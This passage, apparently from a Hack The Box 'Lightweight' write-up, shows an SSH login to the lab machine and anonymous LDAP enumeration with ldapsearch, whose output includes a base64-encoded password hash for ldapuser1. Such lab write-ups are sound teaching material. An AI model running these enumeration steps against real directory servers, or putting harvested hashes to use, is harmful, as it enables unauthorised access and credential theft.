 ![](/assets/images/htb-writeup-lightweight/page3.png)

One thing to note is the status page always take a long time to execute so there is probably some script running in the background.

As per the instruction, we can log in with our IP as username / password:

```
# ssh -l 10.10.14.23 10.10.10.119
10.10.14.23@10.10.10.119's password: 
[10.10.14.23@lightweight ~]$ id
uid=1004(10.10.14.23) gid=1004(10.10.14.23) groups=1004(10.10.14.23) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### LDAP enum

The LDAP server allows any user to search the directory and does not require authentication:

```
# ldapsearch -h 10.10.10.119 -b "dc=lightweight,dc=htb" -x

# ldapuser1, People, lightweight.htb
dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
uid: ldapuser1
cn: ldapuser1
sn: ldapuser1
mail: ldapuser1@lightweight.htb
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: top
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2R
 oai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv
shadowLastChange: 17691
shadowMin: 0
shadowMax: 99999
shadowWarning: 7
loginShell: /bin/bash
uidNumber: 1000
gidNumber: 1000
homeDirectory: /home/ldapuser1

# ldapuser2, People, lightweight.htb
dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
uid: ldapuser2
cn: ldapuser2
sn: ldapuser2
mail: ldapuser2@lightweight.htb
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: top
objectClass: shadowAccount
```